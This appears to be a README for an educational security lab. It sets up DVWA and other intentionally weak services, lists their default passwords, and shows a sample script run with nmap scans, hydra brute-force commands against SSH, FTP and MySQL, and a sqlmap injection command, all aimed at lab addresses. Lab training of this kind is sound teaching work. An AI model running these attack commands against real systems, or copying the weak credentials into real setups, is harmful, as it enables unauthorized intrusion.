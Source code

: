 ### 3. Initial DVWA Setup

1. Browse to http://localhost:8080
2. Login with: admin/password
3. Click "Create/Reset Database"
4. Set security level to "Low" for initial testing

## Service Credentials

| Service | Username | Password | Port |
|---------|----------|----------|------|
| DVWA | admin | password | 8080 |
| MySQL | root | weakpassword123 | 3306 |
| FTP | admin | admin123 | 21 |
| SSH | root | toor | 2222 |

## Basic Testing Examples

### Sample Run of security-testing.sh
```
==========================================
Educational Security Lab Testing Examples
==========================================

WARNING: This script is for educational purposes only.
Only run in isolated lab environments!

[*] Starting Educational Security Assessment

[1] NMAP - Network Discovery
Discovering services on the vulnerable network...

# Basic service detection:
docker exec kali-tools nmap -sV -p- 172.20.0.0/24

# Detailed service scan on web server:
docker exec kali-tools nmap -sV -sC -p 80,443 172.20.0.2

# Check for common vulnerabilities:
docker exec kali-tools nmap --script vuln 172.20.0.2

[2] HYDRA - Password Brute Force
Testing weak credentials...

# SSH brute force (port 2222):
docker exec kali-tools hydra -l root -P /wordlists/common-passwords.txt ssh://172.20.0.5:2222 

# FTP brute force:
docker exec kali-tools hydra -l admin -P /wordlists/common-passwords.txt ftp://172.20.0.4     

# MySQL brute force:
docker exec kali-tools hydra -l root -P /wordlists/common-passwords.txt mysql://172.20.0.3    

[3] SQLMAP - SQL Injection Testing
Testing for SQL injection vulnerabilities...

# Test DVWA login form for SQL injection:
docker exec kali-tools sqlmap -u 'http://172.20.0.2/vulnerabilities/sqli/?id=1&Submit=Submit' --cookie='security=low; PHPSESSID=abc123' --dbs

```
